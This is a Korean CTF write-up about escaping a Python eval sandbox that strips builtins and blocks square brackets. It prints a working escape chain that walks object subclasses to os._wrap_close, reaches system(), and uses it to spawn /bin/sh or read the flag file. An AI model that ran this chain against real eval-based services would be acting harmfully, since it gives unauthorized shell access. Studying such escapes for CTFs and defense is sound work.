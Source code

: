 # 문제 풀이
## 1. 문제 분석
문제 재목인 sandbox와 탈옥하라는 시나리오를 봐서는, 격리된 샌드박스를 탈출하라는 문제인것 같다.  
파이썬으로 만들어진 프로세서라는 샌드박스를 깨고 나와 쉘을 탈취해보자.  

## 2. 문제 해결
### 2.1. 샌드박스 분석
샌드박스를 분석해보면, 파이썬으로 만들어진 프로세서이고, input() 함수를 이용해 입력을 받은 후 eval() 함수를 이용해 입력을 실행한다.
```python
bEval = eval
bPrint = print
input = input(">>> ")
if '[' in input or ']' in input:
    print('[ 당신은 탈옥하는데 실패했습니다 :( ]')
    exit(-1)
globals()['__builtins__'].__dict__.clear()
bPrint(bEval(input, {}, {}))
```
입력값에 [와 ]가 들어가면 탈옥에 실패했다고 출력하고 프로그램을 종료한다.

### 2.2. 샌드박스 탈출
이 문제는 파이썬의 내장함수인 eval() 함수를 이용해 탈출할 수 있다.
eval() 함수는 문자열을 파이썬 코드로 실행시키는 함수이다.
```python
>>> eval('1+1')
2
```
위와 같이 eval() 함수를 이용해 문자열을 파이썬 코드로 실행시킬 수 있다.
이를 이용해 샌드박스를 탈출해보자.

#### 2.2.1. 탈출 방법
eval() 함수를 이용해 문자열을 파이썬 코드로 실행시킬 수 있으므로, Instantiation, Classes 이 두가지 개념만 알고 있다면 쉽게 탈출할 수 있다.  
Instantiation은 클래스를 인스턴스화 하는 것이고, Classes는 클래스를 만드는 것이다.
```python
>>> class A:
...     pass
...
>>> a = A()
>>> a
<__main__.A object at 0x7f9b8c0b9a90>
```
위와 같이 클래스를 만들고 인스턴스화 할 수 있다.
이때 파이썬에서는 기본적으로 상속받는 내용이 있는데, 이를 이용해 탈출할 수 있다.
이를 Python JailBreak라고 한다.

#### 2.2.2. 탈출 과정
아래의 코드로 최상단의 object에 접근을 하여 사용할 수 있는 subClass를 확인할 수 있다.
```python
{}.__class__.__base__.__subclasses__()
```
또한 이 코드를 이용해 사용가능한 method와 attribute 확인이 가능하다.
```python
{}.__class__.__base__.__subclasses__().__dir__()
```
보통의 경우라면 [와 ]를 이용해 __subclasses__()의 특정 요소에 접근할 수 있지만 지금은 대신 `__getitem__()`를 사용하여 접근한다.  
접근할 타깃은 `<class 'os._wrap_close'>` 이고 처음 실행결과를 분석해보면 137번째에 위치해 있다.  
![](/images/Screenshot%202022-09-12%20032421.png)
위의 `<class 'os._wrap_close'>`의 메소드 중 `get()`을 이용해 `system` 모듈을 호출할 수 있다.
```python
{}.__class__.__base__.__subclasses__().__getitem__(137).__init__.__globals__.get('system')
```
또한 다음과 같이 쉘을 실행할 수 있다.
```python
{}.__class__.__base__.__subclasses__().__getitem__(137).__init__.__globals__.get('system')('/bin/sh')
```
또는 flag.txt 파일을 예상에 다음과 같이 바로 플래그를 출력할 수도 있다.  
```python
{}.__class__.__base__.__subclasses__().__getitem__(137).__init__.__globals__.get('system')('cat flag.txt')
```

이제 플래그가 출력된다.  

![](/images/Screenshot%202022-09-12%20033111.png)
